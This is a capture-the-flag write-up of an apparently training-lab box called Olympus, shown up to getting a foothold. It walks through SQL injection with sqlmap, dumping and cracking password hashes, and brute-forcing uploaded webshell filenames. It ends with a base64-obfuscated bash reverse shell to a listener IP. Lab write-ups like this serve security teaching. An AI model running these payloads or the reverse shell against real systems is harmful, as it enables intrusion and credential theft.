## TL;DR

In this challenge we use `SQLi` we find to get credentials for user `prometheus`, which let us login to the CMS management.

We find hidden subdomain `chat`, where we can upload webshell. We bypass the obsufcation of the filenames, and find the uploaded webshell.

We move to user `zeus` using SUID on `cputils`.

Lastly, we find hidden backdoor at `http://olympus/0aB44fdS3eDnLkpsz3deGv8TttR4sc/VIGQFQFMYOST.php`, and use it to get shell as root. The password can be found in the source code, which we can read as `zeus`.

### Recon

we start with `rustscan`, using this command:
```bash
rustscan -a $target -- -sV -sC -oN nmap.txt -oX nmap.xml
```



we can see port `22` with ssh and port `80` with apache http server
```bash
PORT   STATE SERVICE REASON         VERSION                                                                                            
22/tcp open  ssh     syn-ack ttl 62 OpenSSH 8.2p1 Ubuntu 4ubuntu0.13 (Ubuntu Linux; protocol 2.0)                                      
| ssh-hostkey:                                                                                                                         
|   3072 98:01:61:52:99:e5:c8:ca:59:7f:e9:f9:b4:eb:20:bb (RSA)                                                                         
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABgQDMpTk5nFMIO4NtiiNEeri+8byxSpq5pmNbccAz1BU3Uht/IgrivK161Nih/b1cgoS8IU5IQiAUELO03250Ij8RmBBS4iZep
igYIGR30U11+dpq9z8tYPRFuBKHq/Eo4eC8ujXC5M+n5c+oOkwr5UgDTMvIBOZvDk5XMER6Cv/hZYjIOBr/M97F/bzoO+m4KZehvAR3o1KvF+lOjvQAGpZaiM6I2x6yUVKxvUXR
28ocXx/2FAbSn+VCadeMifNhDavDyDE+uu0xUJSp+0WDuNKgt7nNZOXOrYO85tn4FC5dEatn4MKVWl8x41t/1sCXUytyqZxZWvDLNbQ+Dp/rdcfJWTwElRtJls/2HjZczbPnsFo
2nfeekMi89rTd+CLBOFs5vU6pPHX5I36uUbyUYYVER7gCkWB/xC6Zc9EpZQyH3skP54DeqUqW8anC/EWAHC5o3fn6CCRS2HVKZt6cMdYJ0ay4JixlmNvpeYgrVMURihqY5S9Z69m8JW6xSrzmEeU=
|   256 a4:87:41:6d:00:7d:5f:18:3c:02:fd:7c:0e:cd:35:32 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBAvA0+HPyWvo4zlPb/RKapypplpuLbtNYcp0ANri6ZiUAxhtqNm3ZVUxaaO0TYJL8c4xQbm/V0fMyxG+CyqZCF0=
|   256 64:88:fb:11:e9:27:6a:85:53:13:5e:84:17:c4:db:1c (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIJFAtpRik03CFTJCk1I2w++7e1Xni+J9HwMxVUSFsJV1
80/tcp open  http    syn-ack ttl 62 Apache httpd 2.4.41 ((Ubuntu))
|_http-favicon: Unknown favicon MD5: ED726E098473BFA7523153F761D2232F
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-title: Olympus
|_http-server-header: Apache/2.4.41 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

I added `olympus.thm` to my `/etc/hosts`

### Exploit SQLi to get credentials of prometheus to CMS management

I started with the main page, nothing too interesting.



Then, I fuzzed with `ffuf` and found `~webmaster`.
```bash
┌──(agonen㉿kali)-[~/thm/Olympus]                                                                                                      
└─$ ffuf -u "http://olympus.thm/FUZZ" -w /usr/share/SecLists/Discovery/Web-Content/common.txt -fc 403                                  
                                                                                                                                       
        /'___\  /'___\           /'___\                                                                                                
       /\ \__/ /\ \__/  __  __  /\ \__/                                                                                                
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\                                                                                               
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/                                                                                               
         \ \_\   \ \_\  \ \____/  \ \_\                                                                                                
          \/_/    \/_/   \/___/    \/_/                                                                                                
                                                                                                                                       
       v2.1.0-dev                                                                                                                      
________________________________________________                                                                                       
                                                                                                                                       
 :: Method           : GET                                                                                                             
 :: URL              : http://olympus.thm/FUZZ                                                                                         
 :: Wordlist         : FUZZ: /usr/share/SecLists/Discovery/Web-Content/common.txt                                                      
 :: Follow redirects : false                                                                                                           
 :: Calibration      : false                                                                                                           
 :: Timeout          : 10                                                                                                              
 :: Threads          : 40                                                                                                              
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500                                                            
 :: Filter           : Response status: 403                                                                                            
________________________________________________                                                                                       

index.php               [Status: 200, Size: 1948, Words: 238, Lines: 48, Duration: 169ms]
javascript              [Status: 301, Size: 315, Words: 20, Lines: 10, Duration: 165ms]
static                  [Status: 301, Size: 311, Words: 20, Lines: 10, Duration: 160ms]
~webmaster              [Status: 301, Size: 315, Words: 20, Lines: 10, Duration: 185ms]
```

I visited this page, and noticed there is `SQLi` in the search functionality.



You can notice that when sending:
```bash
a'||'1'='0' -- -
```
I get back `no results`, 



And when sending:
```bash
a'||'1'='1' -- -
```
I get nothing.



So, I used `sqlmap`, with the req.txt:
```bash
POST /~webmaster/search.php HTTP/1.1
Host: olympus.thm
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded
Content-Length: 31
Origin: http://olympus.thm
Connection: keep-alive
Referer: http://olympus.thm/~webmaster/search.php
Cookie: PHPSESSID=l7h5s0t9bol74m7lbilufcj1d9
Upgrade-Insecure-Requests: 1
Priority: u=0, i

search=*&submit=
```

and this is the command:
```bash
sqlmap -r req.txt --batch --dbs
```



First, we fetch the databases:
```bash
[*] information_schema
[*] mysql
[*] olympus
[*] performance_schema
[*] phpmyadmin
[*] sys
```

Next, tables from db `olympus`:
```bash
┌──(agonen㉿kali)-[~/thm/Olympus]                                                                                                                                                            
└─$ sqlmap -r req.txt --batch -D olympus --tables

<REDACTED>
Database: olympus
[6 tables]
+------------+
| categories |
| chats      |
| comments   |
| flag       |
| posts      |
| users      |
+------------+
```

Okay, first let's grab the flag:
```bash
┌──(agonen㉿kali)-[~/thm/Olympus]                                                                                                                                                            
└─$ sqlmap -r req.txt --batch -D olympus -T flag --dump

<REDACTED>

Database: olympus
Table: flag
[1 entry]
+---------------------------+
| flag                      |
+---------------------------+
| flag{Sm4rt!_k33P_d1gGIng} |
+---------------------------+
```

Now, let's dump users:
```bash
┌──(agonen㉿kali)-[~/thm/Olympus]                                                                                                                                                            
└─$ sqlmap -r req.txt --batch -D olympus -T users --dump

<REDACTED>

Database: olympus
Table: users
[3 entries]
+---------+----------+------------+-----------+------------------------+------------+---------------+--------------------------------------------------------------+----------------+
| user_id | randsalt | user_name  | user_role | user_email             | user_image | user_lastname | user_password                                                | user_firstname |
+---------+----------+------------+-----------+------------------------+------------+---------------+--------------------------------------------------------------+----------------+
| 3       | <blank>  | prometheus | User      | prometheus@olympus.thm | <blank>    | <blank>       | $2y$10$YC6uoMwK9VpB5QL513vfLu1RV2sgBf01c0lzPHcz1qK2EArDvnj3C | prometheus     |
| 6       | dgas     | root       | Admin     | root@chat.olympus.thm  | <blank>    | <blank>       | $2y$10$lcs4XWc5yjVNsMb4CUBGJevEkIuWdZN3rsuKWHCc.FGtapBAfW.mK | root           |
| 7       | dgas     | zeus       | User      | zeus@chat.olympus.thm  | <blank>    | <blank>       | $2y$10$cpJKDXh2wlAI5KlCsUaLCOnf0g5fiG0QSUS53zp/r0HMtaj6rT4lC | zeus           |
+---------+----------+------------+-----------+------------------------+------------+---------------+--------------------------------------------------------------+----------------+
```

I used `john` to crack the hashes:
```bash
┌──(agonen㉿kali)-[~/thm/Olympus]
└─$ cat users.csv | cut -d ',' -f8 | awk 'NR>1' > hashes.txt
                                                                                                                                                                                             
┌──(agonen㉿kali)-[~/thm/Olympus]
└─$ john hashes.txt --wordlist=/usr/share/wordlists/rockyou.txt
Using default input encoding: UTF-8
Loaded 3 password hashes with 3 different salts (bcrypt [Blowfish 32/64 X3])
Cost 1 (iteration count) is 1024 for all loaded hashes
Will run 2 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
summertime       (?)     
```



and after checking, these credentials worked for login to the admin section on the CMS:
```bash
prometheus:summertime
```



### Upload webshell and find "random" name, and then get shell as www-data

The domain of two of the emails was `chat.olympus.thm`, so maybe there is such subdomain.
I added it to my `/etc/hosts`, and checked:



After login with the same credentials as before, we can find this chat:
```bash
prometheus:summertime
```



First, I fuzzed to find the uploaded dir:
```bash
──(agonen㉿kali)-[~/thm/Olympus]                                                                                                                                                            
└─$ ffuf -u "http://chat.olympus.thm/FUZZ" -w /usr/share/SecLists/Discovery/Web-Content/common.txt -fc 403                                                                                   
                                                                                                                                                                                             
        /'___\  /'___\           /'___\                                                                                                                                                      
       /\ \__/ /\ \__/  __  __  /\ \__/                                                                                                                                                      
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\                                                                                                                                                     
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/                                                                                                                                                     
         \ \_\   \ \_\  \ \____/  \ \_\                                                                                                                                                      
          \/_/    \/_/   \/___/    \/_/                                                                                                                                                      
                                                                                                                                                                                             
       v2.1.0-dev                                                                                                                                                                            
________________________________________________                                                                                                                                             
                                                                                                                                                                                             
 :: Method           : GET                                                                                                                                                                   
 :: URL              : http://chat.olympus.thm/FUZZ                                                                                                                                          
 :: Wordlist         : FUZZ: /usr/share/SecLists/Discovery/Web-Content/common.txt                                                                                                            
 :: Follow redirects : false                                                                  
 :: Calibration      : false                                                                  
 :: Timeout          : 10                                                                     
 :: Threads          : 40                                                                     
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500                                                                                                                  
 :: Filter           : Response status: 403                                                   
________________________________________________                                              

index.php               [Status: 302, Size: 0, Words: 1, Lines: 1, Duration: 161ms]
javascript              [Status: 301, Size: 325, Words: 20, Lines: 10, Duration: 161ms]
static                  [Status: 301, Size: 321, Words: 20, Lines: 10, Duration: 161ms]
uploads                 [Status: 301, Size: 322, Words: 20, Lines: 10, Duration: 178ms]
```

okay, we can go to `/uploads`.

Note, when I used `sqlmap`, I found the table chats and dumped it:
```bash
┌──(agonen㉿kali)-[~/thm/Olympus]                                                                                                                                                            
└─$ sqlmap -r req.txt --batch -D olympus -T chats --dump

Database: olympus
Table: chats
[3 entries]
+------------+-----------------------------------------------------------------------------------------------------------------------------------------------------------------+------------+
--------------------------------------+
| dt         | msg                                                                                                                                                             | uname      |
 file                                 |
+------------+-----------------------------------------------------------------------------------------------------------------------------------------------------------------+------------+
--------------------------------------+
| 2022-04-05 | Attached : prometheus_password.txt                                                                                                                              | prometheus |
 47c3210d51761686f3af40a875eeaaea.txt |
| 2022-04-05 | This looks great! I tested an upload and found the upload folder, but it seems the filename got changed somehow because I can't download it back...             | prometheus |
 <blank>                              |
| 2022-04-06 | I know this is pretty cool. The IT guy used a random file name function to make it harder for attackers to access the uploaded files. He's still working on it. | zeus       |
 <blank>                              |
+------------+-----------------------------------------------------------------------------------------------------------------------------------------------------------------+------------+
--------------------------------------+
```

Okay, so the file `prometheus_password.txt` was uploaded to `47c3210d51761686f3af40a875eeaaea.txt`, I tried to access:
```bash
http://chat.olympus.thm/uploads/47c3210d51761686f3af40a875eeaaea.txt
```



However, there is something very interesting here. The filename looks like md5 hash, I used [https://hashes.com/en/decrypt/hash](https://hashes.com/en/decrypt/hash) to try cracking the hash:
```bash
47c3210d51761686f3af40a875eeaaea:1647276183
```



We got some number, It looks like epoch number. Using [https://www.epochconverter.com/](https://www.epochconverter.com/), I found this is set to some date at 2022, which is quite normal:



So, I thought that maybe, it simply md5 hash the epoch time, and this will be the filename, with the same extension.
I wrote some short script to brute force the file upload using chat gpt, I'm trying to guess the filename:
```py

```

and it worked!



Now we can access our webshell:



and paste the penelope payload:
```bash
printf KGJhc2ggPiYgL2Rldi90Y3AvMTkyLjE2OC4xNjQuMjQ4LzQ0NDQgMD4mMSkgJg==|base64 -d|bash
```

